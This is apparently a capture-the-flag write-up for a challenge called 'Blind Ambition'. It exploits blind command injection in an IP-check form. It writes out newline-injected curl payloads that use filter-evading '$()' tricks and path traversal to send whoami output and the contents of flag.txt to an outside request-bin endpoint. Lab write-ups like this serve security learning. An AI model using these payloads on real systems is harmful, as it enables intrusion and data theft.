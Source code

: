 ## Blind Ambition

Again, same page:

![958f54c0749d427593d54638b524ffdc.png](../images/958f54c0749d427593d54638b524ffdc.png)

If I supply the IP I get a message saying that the host is down:

![6cd368a448ac41188d4415a28a8f74da.png](../images/6cd368a448ac41188d4415a28a8f74da.png)

If I supply the whoami command I get that the host is up and results will be sent via e-mail.

![06aab3a4d97e425ba28932184cb3ce78.png](../images/06aab3a4d97e425ba28932184cb3ce78.png)

I can try some SSRF by setting up a requestbin and using the curl command. 
`ip=127.0.0.1%0acurl eofz8ukxdl0hloq.m.pipedream.net`

![96f00c3869654d0ab0c2f46bb1d9cabd.png](../images/96f00c3869654d0ab0c2f46bb1d9cabd.png)
 
And I see that the request hits my endpoint: 

 ![b3737e623ee3418c8c6659f015c4e9b3.png](../images/b3737e623ee3418c8c6659f015c4e9b3.png)
 
 Let's try with whoami 
 `ip=127.0.0.1%0acurl eofz8ukxdl0hloq.m.pipedream.net/$(whoa$()mi)`

 ![4faf83046f41493cb9cf7cf54d59a416.png](../images/4faf83046f41493cb9cf7cf54d59a416.png)
 
That works:
 ![6506ab1d564548a0bfe78e3ffcac5c22.png](../images/6506ab1d564548a0bfe78e3ffcac5c22.png)
 
The final payload is:
 `ip=127.0.0.1%0acurl eofz8ukxdl0hloq.m.pipedream.net/$(c$()at<./../../../flag.txt)`
 
 ![2d575d5e1dc140cbb58732f8f5910559.png](../images/2d575d5e1dc140cbb58732f8f5910559.png)
 
Finally, I get the flag:

 ![74cdfe283ec040feb736e2f48a745543.png](../images/74cdfe283ec040feb736e2f48a745543.png)
 